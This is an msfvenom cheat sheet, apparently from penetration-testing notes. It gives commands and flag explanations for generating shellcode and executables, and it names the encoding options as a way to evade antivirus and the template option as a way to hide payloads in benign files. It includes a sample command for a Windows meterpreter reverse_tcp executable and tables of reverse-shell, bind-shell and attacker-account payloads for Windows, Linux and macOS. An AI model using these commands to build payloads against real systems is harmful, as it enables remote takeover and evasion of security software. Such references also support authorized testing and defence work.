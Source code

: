 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

**List of Available Platform:**

> Cisco or cisco
>
> OSX or osx
>
> Solaris or solaris
>
> BSD or bsd
>
> OpenBSD or openbsd
>
> hardware
>
> Firefox or firefox
>
> BSDi or bsdi
>
> NetBSD or netbsd
>
> NodeJS or nodejs
>
> FreeBSD or freebsd
>
> Python or python
>
> AIX or aix
>
> JavaScript or javascript
>
> HPUX or hpux
>
> PHP or php
>
> Irix or irix
>
> Unix or unix
>
> Linux or linux
>
> Ruby or ruby
>
> Java or java
>
> Android or android
>
> Netware or netware
>
> Windows or windows
>
> mainframe
>
> multi

**List of Available formats:** `-help-format`

> asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
>
> hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
>
> psh-cmd, vba, vba-exe, vba-psh, vbs, war
>
> Transform formats
>
> bash, c, csharp, dw, dword, hex, java, js\_be, js\_le, num, perl, pl,
>
> powershell, ps1, py, python, raw, rb, ruby, sh,
>
> vbapplication, vbscript

Typical payloads Sample command:

> msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\(IP Address\) LPORT=\(Your Port\) -f exe &gt; reverse.exe

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD |  | LHOST, LPORT |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

